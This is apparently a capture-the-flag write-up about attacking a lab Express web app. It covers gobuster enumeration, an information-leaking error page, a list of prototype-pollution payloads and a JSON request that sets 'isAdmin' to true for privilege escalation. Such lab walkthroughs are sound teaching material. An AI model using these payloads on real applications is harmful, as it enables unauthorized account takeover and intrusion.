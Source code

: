 # Express app (port 4000)

Upon visiting the page, we are presented with a login page with a note to sign in as `guest:guest`.&#x20;

### Enumeration&#x20;

I opened Burp suite, and configured my browser to route traffic through the Burp proxy.

From inspection of the network requests, I discovered that the server uses _Express_ via the  `X-Powered-By` response headers. Express is a Node.js web framework used to develop web server applications ([https://expressjs.com/](https://expressjs.com/)).

<figure><img src="../../../../.gitbook/assets/image (40).png" alt=""><figcaption></figcaption></figure>

Running a simple directory enumeration on port 4000 with `gobuster` , using the [wordlist](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/common.txt):

```sh
$ gobuster dir -u http://<target>:4000 -w <wordlist>
```

<figure><img src="../../../../.gitbook/assets/image (45).png" alt=""><figcaption></figcaption></figure>

From the enumeration results, the one that stands out is the `/signup` route. I visited the address in the browser, and was faced with the following error:

<figure><img src="../../../../.gitbook/assets/image (44).png" alt=""><figcaption></figcaption></figure>

From this error message, we can learn of a few things:

a) The application uses a certain type of server-side rendered templating engine stored under the `views` folder

* Eg. Common Node.js engines includes: `.ejs`, `.pug`, etc.

b)  The root directory of the web application is `/home/ubuntu/include`&#x20;

* The application is ran as the user `ubuntu` &#x20;



Moving on, I logged into the application using the `guest:guest` credentials found earlier. I was presented with a page displaying my profile, along with a few of my friends. Navigating to my profile, I was able to view my current details, along with a form to "Recommend an Activity":

<figure><img src="../../../../.gitbook/assets/image (46).png" alt=""><figcaption></figcaption></figure>



Upon entering the values **test** and **test** to the fields, a new entry appeared on the profile details:

<figure><img src="../../../../.gitbook/assets/image (49).png" alt=""><figcaption></figcaption></figure>

This presents an interesting vulnerability, since we are able to directly manipulate the profile details. The following displays the HTTP POST request:

<pre class="language-http"><code class="lang-http"><strong>POST /recommend-activity/1 HTTP/1.1
</strong>Host: xxx.xxx.xxx.xxx:4000
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 35
Origin: http://10.10.233.149:4000
Connection: keep-alive
Referer: http://10.10.233.149:4000/friend/1
Cookie: connect.sid=token
Upgrade-Insecure-Requests: 1
Priority: u=0, i

activityType=test&#x26;activityName=test
</code></pre>

I sent the request to the Burp Repeater, and attempted a prototype pollution attack with the following payloads for `activityType` and `activityName` set to `true` :

1. `proto.polluted`
2. `constructor.prototype.polluted`
3. `__proto__['polluted']`
4. `__proto__.constructor.prototype.polluted`&#x20;
5. `['__proto__'].polluted`&#x20;
6. `['__proto__']['pollluted']`
7. `constructor['prototype'].polluted`
8. `constructor['prototype']['polluted']`
9. `['constructor']['prototype'].polluted`
10. `['constructor']['prototype']['polluted']`&#x20;

However, none of the payloads worked. Instead, I attempted to directly change the `isAdmin` field to `true` , but ended up changing the value to the literal string `"true"` . To get around this, I changed the content-type to `application/json` and tried the same request with the following payload:

```json
{
  "activityType":"isAdmin",
  "activityName": true
}
```

With this, we are now an admin. Upon navigating to the profile page, I noticed 2 more options on the navigation bar: _**“API”**_ and _**“Settings”**_
